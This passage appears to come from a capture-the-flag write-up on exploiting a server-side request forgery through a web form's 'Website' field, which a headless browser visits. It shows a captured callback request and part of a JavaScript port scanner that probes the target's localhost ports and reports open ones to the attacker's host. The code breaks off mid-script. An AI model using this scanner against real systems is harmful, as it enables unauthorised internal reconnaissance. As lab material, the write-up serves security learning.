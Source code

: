 None of the fields appear (easily) injectable, but the `Website` field allows entering a URL that triggers a connection back from the target:

```http
Connection received on 10.10.11.28 43162
GET / HTTP/1.1
Host: 10.10.14.3
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```

### SSRF Scanner

I created this "scanner" on my `www` server:

```html
$ cat ~/www/x.html
<html>
<body>
<script>
(async function() {
  const startPort = 1;
  const endPort = 65535;
  const maxConcurrency = 100;

  let currentPort = startPort;
  const activeRequests = new Set();

  function getNextPort() {
    if (currentPort > endPort) {
      return null;
    }
    return currentPort++;
  }

  async function scanPort(port) {
    try {
      const response = await fetch('http://127.0.0.1:' + port, { mode: 'no-cors' });
      // Infer open ports based on the absence of errors.
      await fetch('http://10.10.14.3/report?port=' + port + '&status=open');
    } catch (error) {
      // Ports that refuse connection or are closed will trigger an error.
      //await fetch('http://10.10.14.3/report?port=' + port + '&status=closed');
    }
  }

  async function worker() {
    while (true) {
      const port = getNextPort();
      if (port === null) break;
      const request = scanPort(port);
      activeRequests.add(request);
      await request;
      activeRequests.delete(request);

      // Throttle the number of concurrent requests
      while (activeRequests.size >= maxConcurrency) {
        await Promise.race(activeRequests);
      }
```